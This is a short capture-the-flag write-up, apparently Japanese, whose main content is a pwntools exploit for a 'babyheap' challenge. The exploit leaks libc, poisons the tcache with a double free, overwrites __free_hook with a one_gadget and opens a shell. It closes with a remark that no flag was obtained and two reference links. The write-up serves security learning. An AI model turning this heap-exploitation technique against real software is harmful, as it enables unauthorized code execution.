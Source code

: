 ```python
from pwn import process, ELF, p64


def _select(s, sel, c="> "):
    s.recvuntil(c)
    s.sendline(str(sel))


def alloc(s, b="junk"):
    _select(s, 1)
    s.recvuntil(": ")
    s.sendline(b)


def delete(s):
    _select(s, 2)


def wipe(s):
    _select(s, 3)


if __name__ == '__main__':
    elf = ELF("babyheap")
    libc = ELF("libc-2.27.so")
    s = process("babyheap")
    s.recvuntil(">>>>> ")

    addr_stdin = int(s.recvline().split(b" ")[0][2:], 16)
    libc_base = addr_stdin - libc.symbols["_IO_2_1_stdin_"]
    addr_free_hook = libc_base + libc.symbols["__free_hook"]
    one_gadget = libc_base + 0x4f322

    print(hex(addr_stdin))
    print(hex(libc_base))
    print(hex(addr_free_hook))

    alloc(s)
    delete(s)
    delete(s)
    wipe(s)
    alloc(s, p64(addr_free_hook))
    wipe(s)
    alloc(s)
    wipe(s)
    alloc(s, p64(one_gadget))

    delete(s)

    s.interactive()
```

## Flag

ローカルでシェルの奪取に成功しただけなので無いです

## 参考文献

* https://ptr-yudai.hatenablog.com/entry/2019/05/26/150937
* https://qiita.com/kusano_k/items/c1c7ebec353d0bfdf1eb#babyheap-13-solves-448-points